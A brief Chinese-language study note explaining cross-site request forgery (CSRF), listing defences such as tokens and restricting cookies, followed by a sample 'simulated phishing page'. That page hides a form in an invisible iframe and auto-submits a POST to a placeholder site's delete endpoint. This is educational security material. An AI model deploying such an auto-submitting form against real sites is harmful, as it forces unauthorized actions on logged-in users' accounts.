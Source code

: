 <!--
 * @Author: your name
 * @Date: 2020-03-07 14:27:55
 * @LastEditTime: 2020-05-06 14:49:49
 * @LastEditors: Please set LastEditors
 * @Description: In User Settings Edit
 * @FilePath: \RW 笔记\web安全\scrf\介绍.md
 -->

如何防御：

- Get 请求不对数据进行修改
- 不让第三方网站访问到用户 Cookie
- 阻止第三方网站请求接口
- 请求时附带验证信息，比如验证码或者 Token

# 介绍

跨站请求伪造 (Cross-Site Request Forgery) 是一种伪造跨站请求的攻击方式. 例如利用你在 A 站 (攻击目标) 的 cookie / 权限等, 在 B 站 (恶意/钓鱼网站) 拼装 A 站的请求.

![](https://pic002.cnblogs.com/img/hyddd/200904/2009040916453171.jpg)

# 模拟钓鱼网站代码

```html
<body>
  哈哈，给你开了个玩笑，莫生气~
  <iframe name="hiddenIframe" style="display:none"></iframe>
  <form
    action="https://xxxx.com/gift/deleteRecord"
    id="form"
    method="post"
    style="visibility:hidden"
    target="hiddenIframe"
  >
    <input type="text" name="giftId" value="ab231" />
  </form>
  <script>
    document.getElementById("form").submit();
    location.href = "http://xxxx.com";
  </script>
</body>
```

https://zhuanlan.zhihu.com/p/22521378

https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html#4497527
